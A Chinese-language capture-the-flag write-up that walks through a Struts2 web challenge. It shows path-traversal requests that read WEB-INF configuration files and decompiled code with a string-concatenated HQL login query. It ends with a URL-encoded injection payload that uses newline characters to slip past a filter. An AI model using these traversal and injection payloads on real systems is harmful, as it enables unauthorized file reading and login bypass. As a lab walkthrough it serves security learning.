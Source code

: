 后台的背景图片居然是这样读取的，估计可能有文件读取漏洞，另外，抓包发现页面是java web写的，所以想办法读取配置文件web.xml

```
http://220.249.52.134:57170/loadimage?fileName=../../WEB-INF/web.xml
```

![img](https://img2018.cnblogs.com/blog/1532807/201909/1532807-20190914131043644-1537937012.png)

配置文件里面写的是Struts2,搜了下Struts2目录结构

参考链接：

> https://blog.csdn.net/u010004082/article/details/79351459
>
> https://www.cnblogs.com/pigtail/archive/2013/02/12/2910348.html

- apps-存放了所有Struts2的示例项目
- docs-存放了所有Struts2与XWork的文档
- lib-存放了所有Struts2相关的JAR文件以及Struts2运行时所依赖的JAR文件
- src-存放了所有Struts2的源码，以Maven所指定的项目结构目录存放

**继续读取Struts2在WEB-INF目录的class目录下核心的xml文件struts.xml**

```
http://220.249.52.134:57170/loadimage?fileName=../../WEB-INF/classes/struts.xml
```

借鉴了大佬的wp,发现还有个applicationContext.xml，用来获取class文件路径和项目配置信息、数据库信息，在其中找到类UserServiceImpl:

```java
public List <User> loginCheck(String name, String password) {
    name = name.replaceAll(" ", "");
    name = name.replaceAll("=", "");
    Matcher username_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(name);
    Matcher password_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(password);
    if (password_matcher.find()) {
    	return this.userDao.loginCheck(name, password);
    }
    return null;
}
```

这里是登陆语句的过滤规则,在UserDaoImpl.class中找到

```java
public List < User > loginCheck(String name, String password) {
        return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'");  
}
// 过滤规则：用户名只过滤空格和等号，密码限制只能字母+数字
```

直接拼接的name和password变量造成注入，这里用%0A换行污染绕过，再url编码一下，最后的payload

```
admin'%0Aor%0A'1'>'0'%0Aor%0Aname%0Alike%0A'admin&user.password=1

admin%27%0Aor%0A%271%27%3E%270'%0Aor%0Aname%0Alike%0A'admin&user.password=1		//最后的payload
```
